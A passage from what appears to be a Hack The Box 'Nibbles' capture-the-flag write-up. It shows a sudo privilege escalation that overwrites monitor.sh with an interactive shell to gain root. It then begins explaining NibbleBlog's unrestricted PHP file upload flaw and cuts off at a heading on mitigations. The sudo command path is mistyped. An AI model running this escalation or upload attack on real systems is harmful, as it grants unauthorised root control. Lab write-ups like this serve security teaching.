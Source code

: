 Here I see that the **nibbler** user is permitted to execute a shell script as the root user, so I go and check that out.

Looking back at `personal.zip` I found in the home directory, I unzip the file and extract the shell script that nibbler is permitted to execute as root.

```bash 
nibbler@Nibbles:/home/nibbler$ unzip -K personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ 
```

I replace the contents of `monitor.sh` with code to spawn a new shell, and execute the script as root using `sudo` to get a root shell.

```bash
nibbler@Nibbles:/home/nibbler$ echo '/bin/sh -i' > ./personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbles/personal/stuff/monitor/.sh
```

![htb-nibbles-12](/images/htb/nibbles/htb-nibbles-12.png)

<p class="success">root flag obtained!</p>

<p align="center">
    <img src="https://media.giphy.com/media/11Feog5PTumNnq/giphy.gif">
</p>

# <a name="deconstruct"></a>Deconstructing the hack
Exploitation was possible due to an [unrestrited file upload vulnerability](https://www.owasp.org/index.php/Unrestricted_File_Upload) in a plugin of the blogging platform. As explained in the [published security avisory](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) for this vulnerability, when uploading files via the "My Image" plugin, which is delivered by default with NibbleBlog, it keeps the original extension of uploaded files. This extension, or the actual file type, are not checked, and therefore it is possible to upload PHP files to gain code execution.

This [Qualys blog post](https://blog.qualys.com/securitylabs/2015/10/22/unrestricted-file-upload-vulnerability) gives a good rundown on this topic, which I'll paraphrase below.

## Common (but ineffective) mitigations
There are a few common, but ineffective techniques that are often used to attempt to mitigate this vulnerability, and an examination of these can provide insight on how they can be circumvented.

### 1. File extension verification
